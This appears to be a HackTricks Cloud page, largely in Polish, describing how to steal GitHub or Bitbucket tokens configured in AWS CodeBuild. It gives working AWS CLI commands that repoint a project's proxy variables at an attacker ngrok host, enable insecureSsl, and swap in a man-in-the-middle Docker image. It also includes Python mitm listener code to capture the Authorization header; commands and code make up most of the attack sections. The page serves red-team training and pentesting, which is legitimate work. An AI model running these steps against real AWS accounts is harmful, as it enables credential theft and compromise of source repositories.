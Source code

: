 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Najpierw sprawdź, czy są skonfigurowane jakiekolwiek poświadczenia źródłowe, które możesz wyciekować:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Jeśli stwierdzisz, że uwierzytelnienie do na przykład Github jest ustawione w koncie, możesz **ekstrahować** ten **dostęp** (**token GH lub token OAuth**) poprzez sprawienie, że Codebuild **użyje konkretnego obrazu docker** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt Codebuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Docker**.

Obraz Docker, którego możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). To bardzo podstawowy obraz Docker, który ustawi **zmienne środowiskowe `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. To pozwoli ci przechwycić większość ruchu hosta wskazanego w **`https_proxy`** i **`http_proxy`** oraz zaufać certyfikatowi SSL wskazanemu w **`SSL_CERT_FILE`**.

1. **Utwórz i prześlij swój własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami repozytorium, aby ustawić swój adres IP proxy i ustawić swój certyfikat SSL oraz **zbudować obraz docker**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`** jak `ngrok tcp 4444`, aby ustawić proxy do swojego hosta.
* Gdy masz zbudowany obraz Docker, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...)
2. **Ustaw środowisko**
* Utwórz **nowy projekt Codebuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt, aby używał **wcześniej wygenerowanego obrazu Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM w swoim hoście**

* Jak wskazano w **repozytorium Github**, możesz użyć czegoś takiego:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Wersja **mitmproxy używana to 9.0.1**, zgłoszono, że w wersji 10 może to nie działać.
{% endhint %}

4. **Uruchom budowę i przechwyć poświadczenia**

*   Możesz zobaczyć token w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Można to również zrobić z aws cli za pomocą czegoś takiego

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekty mają ustawienie zwane **`insecureSsl`**, które jest ukryte w sieci, można je zmienić tylko z poziomu API.\
Włączenie tego pozwala Codebuild połączyć się z repozytorium **bez sprawdzania certyfikatu** oferowanego przez platformę.

* Najpierw musisz enumerować bieżącą konfigurację za pomocą czegoś takiego:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Następnie, z zebranymi informacjami możesz zaktualizować ustawienie projektu **`insecureSsl`** na **`True`**. Poniżej znajduje się przykład mojej aktualizacji projektu, zwróć uwagę na **`insecureSsl=True`** na końcu (to jest jedyna rzecz, którą musisz zmienić w zebranej konfiguracji).
* Ponadto, dodaj również zmienne środowiskowe **http\_proxy** i **https\_proxy** wskazujące na twój tcp ngrok, jak: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Następnie uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij na **Zbuduj projekt**, **poświadczenia** będą **wysyłane w czystym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Ta luka została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 roku (myślę, że w piątek). Więc atakujący nie może już tego nadużywać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild mógłby wyciekować token Github/Bitbucket** skonfigurowany lub jeśli uprawnienia były skonfigurowane za pomocą OAuth, **tymczasowy token OAuth używany do uzyskania dostępu do kodu**.

* Atakujący mógłby dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild wskazujące na jego maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Następnie zmień URL repozytorium github na używający HTTP zamiast HTTPS, na przykład: `http://github.com/carlospolop-forks/TestActions`
* Następnie uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij na **Zbuduj projekt**, **poświadczenia** zostaną **wysłane w czystym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojej maszyny, wylistować wszystkie posiadane uprawnienia i (nadużywać) łatwiej niż korzystając bezpośrednio z usługi CodeBuild.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
